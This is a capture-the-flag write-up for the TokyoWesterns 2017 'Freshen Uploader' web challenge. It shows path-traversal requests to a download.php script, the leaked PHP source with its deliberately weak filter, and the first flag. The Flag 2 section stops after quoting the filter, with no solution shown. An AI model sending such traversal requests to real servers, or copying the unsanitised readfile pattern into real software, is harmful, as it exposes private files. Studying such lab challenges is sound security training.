


# FRESHEN UPLOADER, Web, no fixed points

## Problem

In this year, we stopped using Windows so you can't use DOS tricks!
http://fup.chal.ctf.westerns.tokyo/

This challenge contained two flags.

## Solution



### Flag 1


```HTML
<td>1</td>
            <td>test.cpp</td>
            <td>192 bytes</td>
            <td><a href="download.php?f=6a92b449761226434f5fce6c8e87295a">Download</a></td>
```


uploads/


LFI:

/download.php?f=./uploads/../6a92b449761226434f5fce6c8e87295a





```
GET /download.php?f=../download.php HTTP/1.1
Host: fup.chal.ctf.westerns.tokyo
```

result:

```
HTTP/1.1 200 OK
Date: Sat, 02 Sep 2017 19:59:02 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Disposition: attachment; filename='../download.php'
Content-Length: 267
Content-Type: application/octet-stream

<?php
// TWCTF{then_can_y0u_read_file_list?}
$filename = $_GET['f'];
if(stripos($filename, 'file_list') != false) die();
header("Content-Type: application/octet-stream");
header("Content-Disposition: attachment; filename='$filename'");
readfile("uploads/$filename");
```

Flag: **TWCTF{then_can_y0u_read_file_list?}**


### Flag 2


```
GET /download.php?f=../index.php HTTP/1.1
Host: fup.chal.ctf.westerns.tokyo
```

result:

```
HTTP/1.1 200 OK
Date: Sat, 02 Sep 2017 20:00:51 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Disposition: attachment; filename='../index.php'
Content-Length: 1315
Content-Type: application/octet-stream

<?php
/**
 *
 */
include('file_list.php');
?>
<!DOCTYPE html>
<html lang="en">
  <head>
  (...)
```


download.php:

```PHP
$filename = $_GET['f'];
if(stripos($filename, 'file_list') != false) die();
```

